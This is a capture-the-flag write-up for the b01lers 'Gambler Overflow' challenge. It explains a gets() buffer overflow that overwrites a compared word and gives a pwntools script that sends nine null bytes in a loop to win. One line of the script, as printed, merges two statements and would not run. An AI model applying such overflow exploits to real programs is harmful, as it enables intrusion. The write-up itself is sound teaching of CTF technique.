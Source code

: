 ```yaml
---
title: Gambler Overflow
date: '2022-05-31'
tags: ['ctf', 'b01lers', 'overflow', 'pwn']
draft: false
summary: Feeling luuuuuuuucky? You must create a flag.txt in the same folder as the binary for it to run.
images: []
layout: PostLayout
authors: ['circo']
---
```


The binary does a `gets()` function call in casino function as seen below.

![Gets Function Call](/static/images/gambler-overflow/1.png)

Supplying an input with length more than 8 characters overwrites the correct word.

![Word Overwrite](/static/images/gambler-overflow/2.png)

The exploit script used:

```python
from pwn import *
#adapt for remote
p = process("/mnt/d/things/gambler_overflow")
#a = p.recvuntil(b"s:")
for i in range (90):
    print('a')
    a = p.recvuntil(b"s:")
    print(a) p.send(b"\x00" * 9 + b"\r\n")
    print(p.recvline())
    print(p.recvline())
print(p.recvline())
print(p.recvline())
p.close()
```

Putting in 9 `null` bytes just matches everything
so it works :D

![Fake Flag Output](/static/images/gambler-overflow/3.png)
